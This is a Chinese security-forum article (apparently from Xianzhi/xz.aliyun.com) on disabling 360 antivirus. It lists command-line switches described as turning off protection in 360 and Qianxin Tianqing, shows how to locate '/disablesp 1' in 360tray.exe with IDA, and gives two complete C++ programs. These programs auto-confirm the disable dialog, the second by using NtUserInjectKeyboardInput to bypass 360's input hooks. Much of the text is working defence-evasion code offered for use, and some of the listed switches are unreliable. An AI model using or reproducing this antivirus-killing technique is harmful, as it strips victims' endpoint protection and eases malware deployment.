



# 一种k360的方式分享-先知社区

> **来源**: https://xz.aliyun.com/news/16137  
> **文章ID**: 16137

---

## **360？如此简单**

序言，本文将分享一种鄙人之前挖掘到的360相关可利用方面，可实现k360，代码还是需要各位师傅自己微调微调的，不要用我的技术搞违法乱纪的事，法律责任与鄙人无关。。。。

## 0.挖掘前的准备

```
a. 奇安信天擎 (Qianxin Tianqing)
-------------------------------------------------------------------
/disablesp 1
禁用天擎的系统防护（SP）。
1
表示禁用，
0
表示启用。例如：

tianqing.exe /disablesp 1

-------------------------------------------------------------------
/start
启动天擎防护服务。
-------------------------------------------------------------------
/stop
停止天擎防护服务。
-------------------------------------------------------------------

/status
查看当前天擎的状态，查看是否启用了防护。
-------------------------------------------------------------------

/disable 1
禁用天擎的实时防护功能。
-------------------------------------------------------------------

/enable 1
启用天擎的实时防护功能。
-------------------------------------------------------------------
```

```
b. 360 安全软件 (360 Security)

/disablesp 1
禁用 360 的系统防护。
1
表示禁用，
0
表示启用。示例：

360sd.exe /disablesp 1
/start
启动 360 安全防护服务。
-------------------------------------------------------------------

/stop
停止 360 的防护服务。
-------------------------------------------------------------------
/update
手动更新 360 安全软件的病毒库和程序。
-------------------------------------------------------------------

/uninstall
卸载 360 安全软件。
-------------------------------------------------------------------

/scan
启动 360 安全软件的扫描功能，扫描指定的文件或目录。例如：

360sd.exe /scan C:\path\to\scan
-------------------------------------------------------------------

/status
查询 360 安全软件的当前防护状态。
```

```
c. 360 企业版

/updateall
更新所有 360 安全防护组件。
-------------------------------------------------------------------

/checkstatus
检查 360 防护软件的当前状态。
-------------------------------------------------------------------

/disablefirewall 1
禁用 360 防火墙功能，
1
为禁用，
0
为启用。
-------------------------------------------------------------------

/enablefirewall 1
启用 360 防火墙功能，
1
为启用，
0
为禁用。
-------------------------------------------------------------------
```

```
d. 其他常见命令
/disableautostart 1
禁用 360 或天擎的自启动功能。

/enableautostart 1
启用自启动功能。
-------------------------------------------------------------------

/clean
执行 360 或天擎的系统清理操作，清理恶意文件和日志。
-------------------------------------------------------------------

/report
生成安全报告，通常用于企业环境中收集防护数据。

-------------------------------------------------------------------
```

## 1.开导

直接把360主程序（360tray.exe）导进IDA，然后跑关键词就行，关键词就是上文我分享的，本文以"C:\Program Files (x86)\360\360Safe\safemon\360tray.exe" /disablesp 1 指令为演示，分享一下如何对其进行利用：  
IDA搜索关键词：**disablesp**





判断存在该指令利用，我们不妨输入试试效果



哦豁，那么我们写个代码来模拟点击：

```
#include <windows.h>
#include <iostream>
#include <string>
#include <tlhelp32.h>

// 回调函数，用于查找包含“是”字样的按钮
BOOL CALLBACK EnumChildProc(HWND hwnd, LPARAM lParam) {
    wchar_t className[256];
    wchar_t buttonText[256];

    // 获取控件类名
    GetClassName(hwnd, className, sizeof(className) / sizeof(wchar_t));
    // 检查是否是按钮
    if (wcscmp(className, L"Button") == 0) {
        // 获取按钮文本
        GetWindowText(hwnd, buttonText, sizeof(buttonText) / sizeof(wchar_t));
        if (wcsstr(buttonText, L"是")) {
            std::wcout << L"找到按钮: " << buttonText << L"，句柄: " << hwnd << std::endl;

            // 发送点击消息
            SendMessage(hwnd, BM_CLICK, 0, 0);
            *(bool*)lParam = true; // 记录是否成功找到并点击按钮
            return FALSE; // 停止枚举子窗口
        }
    }
    return TRUE; // 继续枚举
}

// 主函数
int main() {
    const wchar_t* targetWindowName = L"360产品"; // 要查找的窗口名称
    HWND targetWindow = FindWindow(NULL, targetWindowName); // 查找窗口句柄

    if (targetWindow == NULL) {
        std::wcerr << L"未找到窗口: " << targetWindowName << std::endl;
        return 1;
    }

    std::wcout << L"找到窗口: " << targetWindowName << L"，句柄: " << targetWindow << std::endl;

    bool buttonClicked = false; // 用于记录是否成功点击按钮

    // 枚举目标窗口的子控件，查找“是”字样的按钮
    EnumChildWindows(targetWindow, EnumChildProc, (LPARAM)&buttonClicked);

    if (buttonClicked) {
        std::wcout << L"成功点击了“是”按钮。" << std::endl;
    } else {
        std::wcerr << L"未找到“是”字样的按钮。" << std::endl;
    }

    return 0;
}

```

我们运行，发现虽然鼠标移动到了“是”按钮上，但是没有办法有效点击，这是因为360对旗下产品的任何按键都做了hook处理，防止这样去点击，那么我们沿着这个思路继续写，用NtUserInjectKeyboardInput函数绕过杀软屏幕锁定模拟键鼠  
具体文章看：[NtUserInjectKeyboardInput函数绕过杀软屏幕锁定模拟键鼠](https://xz.aliyun.com/t/16483?time__1311=GuD%3DqmxGxh7D%2FWXKBK0QFq4xjxWTTqymD "NtUserInjectKeyboardInput函数绕过杀软屏幕锁定模拟键鼠")

代码如下：

```
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <string>
#include <dwmapi.h>
#include <winternl.h>

#pragma comment(lib, "Dwmapi.lib")

// 定义 NtUserInjectKeyboardInput 函数原型
typedef struct _KEYBOARD_INPUT_DATA {
    USHORT UnitId;
    USHORT MakeCode;
    USHORT Flags;
    USHORT Reserved;
    ULONG ExtraInformation;
} KEYBOARD_INPUT_DATA, *PKEYBOARD_INPUT_DATA;

typedef NTSTATUS(WINAPI* NtUserInjectKeyboardInput_t)(PKEYBOARD_INPUT_DATA, ULONG);

// 函数指针变量
NtUserInjectKeyboardInput_t NtUserInjectKeyboardInput = NULL;

// 加载 NtUserInjectKeyboardInput
bool LoadNtUserInjectKeyboardInput() {
    HMODULE hUser32 = LoadLibrary(L"user32.dll");
    if (!hUser32) {
        std::wcerr << L"无法加载 user32.dll" << std::endl;
        return false;
    }

    // 获取函数地址
    NtUserInjectKeyboardInput = (NtUserInjectKeyboardInput_t)GetProcAddress(hUser32, "NtUserInjectKeyboardInput");
    if (!NtUserInjectKeyboardInput) {
        std::wcerr << L"无法找到 NtUserInjectKeyboardInput 函数。" << std::endl;
        return false;
    }

    return true;
}

// 回调函数，用于查找包含“是”字样的按钮
BOOL CALLBACK EnumChildProc(HWND hwnd, LPARAM lParam) {
    wchar_t className[256];
    wchar_t buttonText[256];

    // 获取控件类名
    GetClassName(hwnd, className, sizeof(className) / sizeof(wchar_t));
    // 检查是否是按钮
    if (wcscmp(className, L"Button") == 0) {
        // 获取按钮文本
        GetWindowText(hwnd, buttonText, sizeof(buttonText) / sizeof(wchar_t));
        if (wcsstr(buttonText, L"是")) {
            std::wcout << L"找到按钮: " << buttonText << L"，句柄: " << hwnd << std::endl;

            // 获取按钮位置
            RECT rect;
            if (GetWindowRect(hwnd, &rect)) {
                // 移动鼠标到按钮上
                SetCursorPos((rect.left + rect.right) / 2, (rect.top + rect.bottom) / 2);
                std::wcout << L"鼠标已移动到按钮上方。" << std::endl;

                // 模拟按下 Enter 键
                if (NtUserInjectKeyboardInput) {
                    KEYBOARD_INPUT_DATA keyInput[2] = {};

                    // 模拟按下 Enter 键
                    keyInput[0].MakeCode = 0x1C; // Enter 键的扫描码
                    keyInput[0].Flags = 0; // 按下

                    // 模拟释放 Enter 键
                    keyInput[1].MakeCode = 0x1C; // Enter 键的扫描码
                    keyInput[1].Flags = 0x0001; // 松开

                    // 调用 NtUserInjectKeyboardInput
                    NTSTATUS status = NtUserInjectKeyboardInput(keyInput, 2);
                    if (status == 0) {
                        std::wcout << L"成功模拟按下 Enter 键。" << std::endl;
                    } else {
                        std::wcerr << L"模拟按下 Enter 键失败，状态码: " << status << std::endl;
                    }
                }

                *(bool*)lParam = true; // 记录是否成功找到按钮
                return FALSE; // 停止枚举子窗口
            } else {
                std::wcerr << L"无法获取按钮位置。" << std::endl;
            }
        }
    }
    return TRUE; // 继续枚举
}

// 主函数
int main() {
    const wchar_t* targetWindowName = L"360产品"; // 要查找的窗口名称

    // 加载 NtUserInjectKeyboardInput
    if (!LoadNtUserInjectKeyboardInput()) {
        return 1;
    }

    HWND targetWindow = FindWindow(NULL, targetWindowName); // 查找窗口句柄

    if (targetWindow == NULL) {
        std::wcerr << L"未找到窗口: " << targetWindowName << std::endl;
        return 1;
    }

    std::wcout << L"找到窗口: " << targetWindowName << L"，句柄: " << targetWindow << std::endl;

    bool buttonClicked = false; // 用于记录是否成功找到按钮

    // 枚举目标窗口的子控件，查找“是”字样的按钮
    EnumChildWindows(targetWindow, EnumChildProc, (LPARAM)&buttonClicked);

    if (buttonClicked) {
        std::wcout << L"成功处理了“是”按钮。" << std::endl;
    } else {
        std::wcerr << L"未找到“是”字样的按钮。" << std::endl;
    }

    return 0;
}

```

完成点击，360被成功干掉
